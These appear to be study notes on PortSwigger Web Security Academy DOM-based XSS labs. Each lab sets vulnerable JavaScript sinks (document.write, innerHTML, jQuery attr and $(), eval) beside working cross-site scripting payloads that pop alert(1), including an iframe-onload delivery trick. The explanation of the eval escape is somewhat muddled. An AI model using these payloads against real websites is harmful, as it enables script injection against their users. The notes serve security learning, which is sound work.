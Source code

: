 ## Exploits

1. `a" onload=alert(1)>//` || `a"><img src=1 onerror=alert(1)>`
2. `a</option></select><script>alert(1)</script>`
3. `<img src=a onerror=alert(1)>`
4. `javascript:alert(1)`
5. `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
6. `{{ $eval.constructor('alert(1)')() }}`
7. `\"alert()}//`
8. `<><img src=1 onerror=alert()>`

```js
document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">'); 
document.write('<option selected>'+store+'</option>');
document.getElementById('searchMessage').innerHTML = query;
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
Using AngulerJS, injecting code.
eval('var searchResultsObj = ' + this.responseText); //this.responseText = '{"results":[],"searchTerm":"a"}' <-- string not JSON
let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)//custom escape that only handle first < >.
```

## Main ideas
- If the vulnerable code is executed in something like `hashchange`, `urlchange`... Any thing that should be changed in user browser, Then we can use `<iframe>` with `onload`
  and put what you want to change after it `<iframe src=http//lab.com# onload="this.src+='<img src=0 onerror=alert(1)>'" >`

---
### lab1
```js
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">'); 
} 
var query = (new URLSearchParams(window.location.search)).get('search'); 
if(query) {
	trackSearch(query);
}
IN DOM
<img src="/resources/images/tracker.gif?searchTerms=a">
________
Exploit
a" onload=alert(1)>//    OR
a"><img src=1 onerror=alert(1)>

```

### lab2
#### Adding unexpected argument
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
	document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
	if(stores[i] === store) {
		continue;
	}
	document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');

_______IN DOM_____
<select name="storeId">
	<option selected>a</option>
	<option>London</option>
	<option>Paris</option>
	<option>Milan</option>
</select>
_________Exploit______
a</option></select><script>alert(1)</script>
```


### lab 3
#### innerHTML
```js
function doSearchQuery(query) {
	document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	doSearchQuery(query);
}
_______________
Exploit
<img src=a onerror=alert(1)>
https://web-security-academy.net/?search=%3Cimg+src%3Da+onerror%3Dalert%281%29%3E
```

### lab4
#### Sources and sinks in third-party dependencies
#### XSS in a href attribute
If a JavaScript library such as jQuery is being used, look out for sinks that can alter DOM elements on the page. For instance, jQuery's `attr()` function can change the attributes of DOM elements. If data is read from a user-controlled source like the URL, then passed to the `attr()` function, then it may be possible to manipulate the value sent to cause XSS. For example, here we have some JavaScript that changes an anchor element's `href` attribute using data from the URL, You can exploit this by modifying the URL so that the `location.search` source contains a malicious JavaScript URL. After the page's JavaScript applies this malicious URL to the back link's `href`, clicking on the back link will execute it.
```js
  
$(function() { 
	$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath')); 
});

____IN DOM_____
https://0a2100cb03db974c80f90336004a0069.web-security-academy.net/feedback?returnPath=/post
<a id="backLink" href="/post">Back</a>

____Exploit____

returnPath=javascript:alert(1)
https://0a2100cb03db974c80f90336004a0069.web-security-academy.net/feedback?returnPath=javascript:alert(1)

```

### lab5
Another potential sink to look out for is jQuery's `$()` selector function, which can be used to inject malicious objects into the DOM.
jQuery used to be extremely popular, and a classic DOM XSS vulnerability was caused by websites using this selector in conjunction with the `location.hash` source for animations or auto-scrolling to a particular element on the page. As the `hash` is user controllable, an attacker could use this to inject an XSS vector into the `$()` selector sink. More recent versions of jQuery have patched this particular vulnerability by preventing you from injecting HTML into a selector when the input begins with a hash character (`#`). However, you may still find vulnerable code in the wild. To actually exploit this classic vulnerability, you'll need to find a way to trigger a `hashchange` event without user interaction. One of the simplest ways of doing this is to deliver your exploit via an `iframe`.

> [!tip] 
> This vuln is based on creating new DOM object using `$(h2:contains)`. But that object won't appear in  the source page. 
> But if we have something like `<img src=0 onerror=alert(1)>`, This will make the browser tries to fetch the img and if failed it will execute the code. so we try to get something like `$('section.blog-list h2:contains(<img src=0 onerror=alert(1)>)')`

> [!tip] Tip: Dynamic Changes trigger
> If the vulnareble code need to have some changes in page or url. try to use `<iframe src=abc onload="javascriptCode" >` . you can change whatever you want in `onload` using javascript.

> [!warning] 
> The vulnerablitiy of  creating DOM object using $() is **patched**, but you may incounter something running in older versions.
```js
$(window).on('hashchange', function(){ 
	var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')'); // $() --> this create DOM object,
	//This code search for string in one of h2 tags, then assign that h2 object in post. if we put our tag inside it will be created.
	//So, 'Contains' if it find the target it will return it, if not it will create it.
	if (post) post.get(0).scrollIntoView();
});

___Exploit___
//in my exploit server
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

### lab5
[[1. what you need|Basic Anguler XSS]]

### lab6
#### eval

> [!bug] eval
> when you see eva that is red flag, you can easily execute your code. you need only to figure how to escape.

```js
eval('var searchResultsObj = ' + this.responseText);

____________
this.response --> `{"results":[],"searchTerm":"a"}`

____Exploit___
a\"-alert(1)}//

```
- because of `this.responseText()`. we have string.
- we did `"` --`"`-> `"searchTerm":"a\""}` --> But `"` got escaped so we put `\`-- `\"`--> `{"searchTerm":"a""}` --`\"-alert()`--> `"{searchTerm":"a"-alert()"}`
  we still have additional `"` at the end which make error, so we need to end the json and comment every thing --`\"alert()}//`--> `"{searchTerm":"a"-alert()} //"}`